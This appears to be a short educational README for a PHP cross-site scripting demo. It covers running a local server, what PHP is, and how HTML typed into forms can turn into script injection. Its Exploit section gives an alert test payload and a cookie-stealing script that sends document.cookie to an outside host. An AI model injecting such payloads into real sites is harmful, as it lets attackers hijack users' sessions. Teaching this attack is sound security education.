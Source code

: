 # Quick demo
- Just an example of XSS with php

## Run
- Run with `php -S localhost:8000`
- `tail -f /var/log/httpd/access_log`

## PHP
- PHP is a server side scripting language.
- That means that it runs code you can't see before sending you back a resopnse
- This is called a backend or server and this is how *modern* websites work.

## Exploit
- Tags into forms for forums, email signature, etc...
```html
I'm <strong>STRONG</strong>!
```
- If you can put in tags, that means you can put in `<script>` tags...

**TODO: simplehttpserver as callback**
- Either of the forms with
```html
<script>alert('doot')</script>
<script>document.write('<img src="http://website.com/?cookie=' + document.cookie + '" />')</script>
```
